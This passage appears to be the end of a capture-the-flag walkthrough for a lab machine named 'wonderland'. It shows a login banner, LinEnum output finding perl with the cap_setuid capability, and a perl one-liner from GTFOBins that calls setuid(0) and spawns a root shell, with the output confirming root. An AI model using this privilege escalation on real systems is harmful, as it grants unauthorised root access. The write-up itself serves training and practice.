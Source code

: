 ```
  System load:  0.05               Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 34%                IP address for eth0: 10.10.130.186
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hatter@wonderland:~$
```
running [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) we can see:
```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/perl = cap_setuid+ep
```

Looking at perl on [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) we can see this:

![Alt text](https://i.imgur.com/m6f66A7.png)

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```
